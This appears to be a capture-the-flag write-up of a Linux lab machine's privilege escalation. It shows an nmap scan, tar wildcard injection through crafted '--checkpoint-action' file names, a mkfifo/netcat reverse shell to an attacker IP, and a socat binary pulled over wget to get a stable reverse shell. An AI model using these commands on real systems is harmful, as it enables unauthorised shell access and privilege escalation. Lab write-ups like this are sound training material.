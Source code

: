 ```nmap -sV -sC -T4 -oN ./nmap_results 10.10.197.179```
since we can execute this backup.sh command as the user michael we might be able to get a reverse shell as the user michael.
lets try!

```echo "" > --checkpoint=1```
```echo "" > "--checkpoint-action=exec=sh shell.sh"```
```echo 'mkfifo /tmp/ztbkhi; nc 10.8.71.60 4018 0</tmp/ztbkhi | /bin/sh >/tmp/ztbkhi 2>&1; rm /tmp/ztbkhi' > shell.sh```

![alt text](img/exploit.png?raw=true "exploit")

let set up a listner on the attacking machine.

```nc -lvnp 4018```

And now lets run the backup.sh as the user michael.

```sudo -u miachel ./backup.sh```

![alt text](img/no.png?raw=true "no")

Oeps seems like the user michael doesnt have permission to edit the backup.tar file. Since jake does have write permission we can just give everyone rwx permissions

```chmod 777 backup.tar```

now lets try again.

```sudo -u miachel ./backup.sh```

And we have a shell!

![alt text](img/shell.png?raw=true "shell")

Now that we have a shell we can use the linpeas.sh script again but we because the shell is very unstable we might lose it if we attamt to use the script so we first need a better shell.

We are going to use a technique where we transfer over a precompiled binary of the tool called socat to get a stable shell.You can get the binary [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

after that:

####  attacking box

```python3 -m http.server 4013```

#### victim unstable shell

```wget http://10.8.71.60:4013/socat```

#### attacking box 

```socat file:`tty`,raw,echo=0 tcp-listen:4444```

####  victim unstable shell

```chmod 777 ./socat```

```./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.8.71.60:4444```


![alt text](img/shell.png?raw=true "shell")


![alt text](img/better.png?raw=true "better")
```